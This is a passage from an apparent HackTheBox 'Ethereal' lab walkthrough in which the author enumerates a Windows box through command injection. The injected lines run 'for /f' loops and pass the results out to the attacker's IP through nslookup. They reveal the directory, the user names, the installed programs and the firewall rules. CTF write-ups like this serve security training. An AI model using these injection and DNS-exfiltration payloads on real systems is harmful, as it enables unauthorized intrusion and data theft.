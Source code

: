 <br> We will start enumerating the filesystem this way , [read this](https://ss64.com/nt/for_f.html) if you don't understand some of the `for` commands that we will use.
`10.10.xx.xx & for /f %i in ('cd') do nslookup %i 10.10.xx.xx`
![](/images/hackthebox/ethereal/37.png)
<br>
<br>
![](/images/hackthebox/ethereal/38.png)
<br> So the current directory is `c:\windows\system32\inetsrv`
<br> We also need to know the users on the box :
`10.10.xx.xx & for /f "tokens=1,2,3" %a in ('dir /B "C:\Users"') do nslookup %a.%b.%c 10.10.xx.xx`
![](/images/hackthebox/ethereal/39.png)
<br> We have 5 users on the box `alan` , `jorge` , `Public` , `rupal` and `Administrator`. We are executing commands as `alan`
<br> Next thing to look at is the installed programs :
`10.10.xx.xx & for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c 10.10.xx.xx` 
![](/images/hackthebox/ethereal/40.png)
<br> We notice that OpenSSL is installed which is unusual , we also need to know why can't we make the box connect back to us so we will check the firewall rules. In our case the easiest way to do this is to execute the command and only look for the string `Rule Name:` then redirect that output to a file , and read that file like we  are doing. But first we need to find a place that we can write to. After some attempts I could write to `c:\users\public\desktop\shortcuts` , so we will do this :
`10.10.xx.xx & netsh advfirewall firewall show rule name=all | findstr "Rule Name:" > C:\Users\Public\Desktop\Shortcuts\firewall.txt`
<br> Then we will list the contents of `c:\users\public\desktop\shortcuts` 
`10.10.xx.xx & for /f "tokens=1,2,3" %a in ('dir /B "C:\Users\Public\Desktop\Shortcuts"') do nslookup %a.%b.%c 10.10.xx.xx`
![](/images/hackthebox/ethereal/41.png)
<br> And we see that we have successfully written into that directory , next step is to read the file :